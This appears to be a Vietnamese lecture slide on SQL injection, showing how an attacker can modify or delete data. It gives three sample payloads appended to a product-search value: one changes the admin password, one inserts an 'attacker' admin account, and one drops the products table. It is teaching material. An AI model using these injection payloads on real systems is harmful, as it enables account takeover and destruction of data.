

# 2.3 Các dạng tấn công - Tấn công bằng mã độc: SQL Injection - Sửa đổi, hoặc xóa dữ liệu
Phân tích:
Bằng thủ thuật tương tự, kẻ tấn công có thể thay lệnh DELETE bằng lệnh UPDATE hoặc INSERT để xóa hoặc chèn dữ liệu.
Cập nhật mật khẩu của người quản trị:
Galaxy S4';UPDATE tbl_administrators SET password=abc123    WHERE username = 'admin';--
Chèn thêm bản ghi:
Galaxy S4';INSERT INTO tbl_administrators (username, password) VALUES ('attacker', 'abc12345');--
Xóa cả bảng dữ liệu:
Galaxy S4';DROP TABLE tbl_products;--